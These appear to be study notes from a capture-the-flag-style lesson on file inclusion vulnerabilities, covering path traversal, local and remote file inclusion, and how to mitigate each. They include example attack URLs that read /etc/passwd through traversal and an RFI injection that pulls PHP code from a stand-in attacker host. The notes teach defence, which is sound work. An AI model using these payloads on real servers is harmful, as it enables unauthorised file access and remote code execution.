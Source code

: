# **File Inclusion Vulnerabilities**

## Overview  
- **Objective**: Understand and exploit file inclusion vulnerabilities, including Local File Inclusion (LFI), Remote File Inclusion (RFI), and directory traversal.  
- **Content**: The room provides practical examples, hands-on challenges, and discusses the risks and remediation of these vulnerabilities.

## How File Inclusion Works  
- **File Access**: Web applications often request access to files using parameters in the URL. For example:

**# Path Traversal (Directory Traversal) Summary**

Path traversal is a web security vulnerability that allows attackers to access sensitive files and directories on a server by manipulating the application's URL. By exploiting this vulnerability, attackers can read files outside the application's root directory, such as operating system resources.

## Key Points:

- **Mechanism**: The vulnerability occurs when user input is passed to file-handling functions (e.g., `file_get_contents` in PHP) without proper validation. Attackers can use payloads like `../` (dot-dot-slash) to traverse directories.

- **Example Attack**:  
  - A typical attack URL: `http://webapp.thm/get.php?file=../../../../etc/passwd`  
  - This example attempts to access the `/etc/passwd` file by moving up the directory structure.

- **Windows Systems**: The same concept applies to Windows servers, where attackers can exploit paths like `C:boot.ini` using similar traversal techniques.

- **Common Target Files**:  
  - `/etc/passwd`: User account information.  
  - `/etc/shadow`: Password information.  
  - `/var/log/apache2/access.log`: Access logs for the web server.  
  - `C:boot.ini`: Boot options for BIOS firmware.

## Prevention:  
To mitigate path traversal vulnerabilities, developers should implement strict input validation and filtering to ensure users cannot manipulate file paths.

**Local File Inclusion**

**Local File Inclusion (LFI)** vulnerabilities occur when web applications include files based on user-controlled input without proper validation. This can allow attackers to include arbitrary files on the server, potentially leading to sensitive information disclosure or code execution.

**Common Causes:**

* Using functions like `include`, `require`, `include_once`, and `require_once` without proper input validation.  
* Lack of security awareness among developers.

**Exploitation Scenarios:**

1. **Direct Inclusion:**  
   * **Example:** `include($_GET["lang"]);`  
   * **Exploit:** `http://webapp.thm/index.php?lang=/etc/passwd`  
   * **Vulnerability:** No directory specified, and no input validation.  
2. **Directory-Based Inclusion:**  
   * **Example:** `include("languages/". $_GET['lang']);`  
   * **Exploit:** `http://webapp.thm/index.php?lang=../../../../etc/passwd`  
   * **Vulnerability:** Directory specified, but no input validation, allowing path traversal.

**Key Points:**

* LFI vulnerabilities are often caused by developer oversight.  
* Path traversal techniques are often used to exploit LFI.  
* Input validation is crucial to prevent LFI attacks.

**Additional Considerations:**

* **File Types:** The type of file included can affect the impact of the attack. For example, including a PHP file could lead to code execution.  
* **Server Configuration:** Server configuration can influence the severity of LFI vulnerabilities.  
* **Mitigation:** Proper input validation, whitelisting allowed file paths, and using relative paths can help mitigate LFI risks.

# **Remote File Inclusion**

**Remote File Inclusion (RFI)** vulnerabilities occur when web applications include files from external sources based on user-controlled input without proper validation. This can allow attackers to include malicious files hosted on external servers, potentially leading to severe consequences like Remote Command Execution (RCE).

## **Prerequisites:**

* **allow_url_fopen:** This PHP setting must be enabled for RFI to be possible.

## **Potential Consequences:**

* **Remote Command Execution (RCE):** An attacker can execute arbitrary code on the vulnerable server.  
* **Sensitive Information Disclosure:** Access to sensitive files or data.  
* **Cross-site Scripting (XSS):** Injecting malicious JavaScript into the web application.  
* **Denial of Service (DoS):** Overloading the server with requests.

## **Exploitation Process:**

1. **Host Malicious File:** The attacker hosts a malicious file on their server.  
2. **Inject Malicious URL:** The attacker injects the URL of the malicious file into the vulnerable application's input.  
3. **Server-Side Request:** The vulnerable application's server sends a request to the attacker's server to fetch the file.  
4. **File Inclusion:** The vulnerable application includes the remote file, executing its content.

## **Example:**

* **Malicious File:** `http://attacker.thm/cmd.txt` (containing PHP code)  
* **Injection:** `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`  
* **Result:** The PHP code from the malicious file is executed on the vulnerable server.

## **Mitigation:**

* **Disable allow_url_fopen:** If not necessary, disable this setting to prevent RFI.  
* **Input Validation:** Strictly validate user-controlled input to prevent malicious URLs from being included.  
* **Use Relative Paths:** Avoid using absolute paths in include functions.  
* **Restrict File Inclusion:** Limit the types of files that can be included.